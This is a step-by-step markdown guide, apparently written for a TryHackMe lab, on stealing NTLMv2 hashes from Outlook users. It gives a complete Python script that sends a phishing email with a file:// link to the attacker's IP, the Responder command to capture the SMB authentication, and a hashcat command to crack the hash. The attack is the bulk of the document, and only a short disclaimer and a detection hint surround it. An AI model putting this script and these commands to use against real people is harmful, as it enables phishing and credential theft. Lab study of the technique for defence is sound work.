 # Capturing NTLMv2 Hash via Outlook SMB Request

This guide shows how to use Outlook and SMB protocol to capture an NTLMv2 hash from a victim's machine by sending a specially crafted email and using the Responder tool to intercept the hash.

---

## 📚 Table of Contents

- [🛠️ Capturing NTLMv2 Hash via Outlook SMB Request](#️-capturing-ntlmv2-hash-via-outlook-smb-request)
- [🔧 1. What You Need](#️-1-what-you-need)
- [💡 2. Explanation of Basic Concepts](#️-2-explanation-of-basic-concepts)
   - [📬 What is an SMTP Server?](#️-what-is-an-smtp-server)
- [🌍 3. How to Find Your Attacker Machine’s IP Address](#️-3-how-to-find-your-attacker-machines-ip-address)
- [💣 4. How Does It Work?](#️-4-how-does-it-work)
- [✅ 5. Step-by-step from Zero (Example with a Fake SMTP Server)](#️-5-step-by-step-from-zero-example-with-a-fake-smtp-server)
  - [🔐 Where to See the Hash?](#️-where-to-see-the-hash)
  - [🛠️ (Optional) Crack the Hash](#️-optional-crack-the-hash)
  - [⚠️ Important Notes](#️-important-notes)
  - [💡 Hint for Penetration Testers](#️-hint-for-penetration-testers)

---

## 🔧 1. What You Need

To perform this technique, you need:

| Component           | Description                                                                                  |
|---------------------|----------------------------------------------------------------------------------------------|
| **Attacker Machine** | Your Kali Linux (or THM AttackBox) where the attack is executed.                             |
| **Victim Machine**   | Windows PC running Outlook (can use VM for testing).                                        |
| **Local IP**         | Attacker machine’s IP address on the network (e.g., `192.168.1.10`).                        |
| **SMTP Server**      | Server that sends the email – you must know the address, port, and login credentials.       |
| **Responder Tool**   | Tool that listens for SMB requests and captures NTLM hashes.                                |

---

# 💡 2. Explanation of Basic Concepts

### 📬 What is an SMTP Server?

SMTP = Simple Mail Transfer Protocol  
It is the server responsible for sending emails from one account to another.

When sending emails via a Python script, you must specify the SMTP server used –  
for example, Gmail uses `smtp.gmail.com`, Outlook uses `smtp.office365.com`, etc.

In labs like TryHackMe, you often use a fake SMTP server that is already set up (e.g., `10.10.143.109`).

---

# 🌍 3. How to Find Your Attacker Machine’s IP Address

On Kali Linux (or any Linux), run this command in the terminal:

```bash
ip a
```
Look for the line containing inet 192.168.x.x or 10.10.x.x – that is your local IP address.

# 💣 4. How Does It Work?
🎯 Goal:
Make Outlook automatically send the NTLMv2 hash to your machine.

🧠 Mechanism:
Outlook opens file:// links (network file links).

When you click on this link in the email:

<a href="file://192.168.1.10/test!exploit">Click me</a>
Outlook:

tries to load the file

sends an SMB authentication request including the NTLM hash

On your side, Responder listens and captures the hash.

# ✅ 5. Step-by-step from Zero (Example with a Fake SMTP Server)
🖥️ On Kali Linux (Attacker)
Find your IP
```
ip a
```
Note it down, e.g., 192.168.1.10.

Start Responder
```
sudo responder -I eth0
```
(replace eth0 with your network interface name)

Create the exploit.py script:
```
nano exploit.py
```
Paste the following Python code:

# ⬇️⬇️ Don't forget to change what is needed. ⬇️⬇️

```bash
 import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@example.com'
receiver_email = 'victim@example.com'
password = 'attacker'  # only if SMTP requires authentication⬅️⬅️

html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://192.168.1.10/test!exploit">Click me</a></p>⬅️⬅️⬅
</html>"""

message = MIMEMultipart()
message['Subject'] = "Check this out!"
message["From"] = formataddr(('Hacker', sender_email))
message["To"] = receiver_email

msgHtml = MIMEText(html_content, 'html')
message.attach(msgHtml)

server = smtplib.SMTP('10.10.143.109', 25)  # ← change this if you need another server ⬅️⬅️
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\nEmail delivered")
except Exception as error:
    print(error)
finally:
    server.quit()

```

#### Run the script:
```
python3 exploit.py
```
If successful, you will see:


📧 Email delivered

💻 On the Windows Machine (Victim)
 Open Outlook
 Open the received email

 Click the #"Click me"# link

Outlook will try to open the SMB link → sending the NTLM hash.

🔐 Where to See the Hash?
Responder terminal will automatically display a line like this:

## [SMB] NTLMv2-Hash captured from VICTIM
🛠️ (Optional) Crack the Hash
Copy the hash into a file called hash.txt and then use Hashcat:
 ```
hashcat -m 5600 hash.txt rockyou.txt --force
```


## ⚠️ Important Notes
> This guide is for educational purposes only and for testing in your own controlled environments.
> Do NOT use these techniques on networks or machines without explicit permission!



## HINT for PENETRATION TESTERS: A Yara rule has been created to detect emails containing the file:\\ element in the Moniker Link. 
